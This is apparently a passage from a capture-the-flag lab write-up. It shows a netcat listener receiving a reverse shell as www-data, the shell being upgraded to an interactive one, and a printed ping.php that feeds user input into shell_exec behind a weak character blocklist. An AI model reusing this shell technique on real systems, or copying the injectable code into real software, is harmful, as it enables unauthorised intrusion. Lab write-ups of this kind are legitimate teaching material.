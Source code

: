 <h3>Shell</h3>

<img width="901" height="326" alt="image" src="https://github.com/user-attachments/assets/8cad0f53-1559-4f33-bbcb-da72fba678f0" />


```bash
:~/Athena# nc -nlvp 4444
Listening on 0.0.0.0 4444
...
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@routerpanel:/var/www/html/myrouterpanel$ export TERM=xterm^Z
[1]+  Stopped                 nc -nlvp 4444
:~/Athena# stty -echo raw;fg
nc -nlvp 4444

www-data@routerpanel:/var/www/html/myrouterpanel$ 
```

<br>

<h3>ping.php</h3>

```bash
www-data@routerpanel:/var/www/html/myrouterpanel$ ls -lah
total 24K
drwxr-xr-x 2 root root 4.0K May 23  2023 .
drwxr-xr-x 3 root root 4.0K Apr 19  2023 ..
-rw-r--r-- 1 root root 1.3K Apr 16  2023 index.html
-rw-r--r-- 1 root root  767 May 23  2023 ping.php
-rw-r--r-- 1 root root 1.3K Apr 16  2023 style.css
-rw-r--r-- 1 root root  211 Apr 15  2023 under-construction.html
```

<br>

```bash
www-data@routerpanel:/var/www/html/myrouterpanel$ cat ping.php
<?php
if (isset($_POST['submit'])) {
    $host = $_POST['ip'];

    // Validate input
    if (containsMaliciousCharacters($host)) {
        echo "Attempt hacking!";
        exit;
    }

    // Execute command safely
    $cmd = "ping -c 4 " . $host;
    $output = shell_exec($cmd);

    if (!$output) {
        echo "Failed to execute ping.";
        exit;
    }

    echo "<pre>" . $output . "</pre>";
}

function containsMaliciousCharacters($input) {
    // Define the set of characters to check for
    $maliciousChars = array(';', '&', '|');

    // Check if any of the malicious characters exist in the input
    foreach ($maliciousChars as $char) {
        if (stripos($input, $char) !== false) {
```